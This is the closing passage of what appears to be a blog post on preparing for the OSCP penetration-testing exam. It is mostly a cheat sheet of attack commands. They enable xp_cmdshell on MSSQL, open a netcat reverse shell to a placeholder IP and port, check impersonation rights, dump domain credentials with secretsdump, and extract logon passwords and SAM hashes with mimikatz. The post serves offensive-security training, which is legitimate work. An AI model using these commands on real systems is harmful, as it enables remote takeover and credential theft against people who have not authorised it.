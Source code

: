   ```SQL
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1; 
  RECONFIGURE;-- 
  ```
  Get a shell:
  ```sql
  EXEC xp_cmdshell "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe <ip> <port>";--
  ```
  Also check for Impersonation
  ```SQL
  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
  ```

### Got Admin

* After getting admin always use secretsdump
  ```bash
  secretsdump.py domain/user:pass@domain.com
  ```
* Run mimikatz:
  ```powershell
  .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
  ```
* Enumerate files manually. Use `tree /F` on `C:\Users` to display all files in the users directory recursively.

# Conclusion

I think I've covered most of the tricks I learnt throughout my journey but do checkout my Gitbook for my cheat-sheet which will have more information.

Good luck to anyone preparing for the OSCP and remember "Try Harder"

![How I Passed the OSCP\_1.gif](/postimgs/Images/How%20I%20Passed%20the%20OSCP_1.gif)
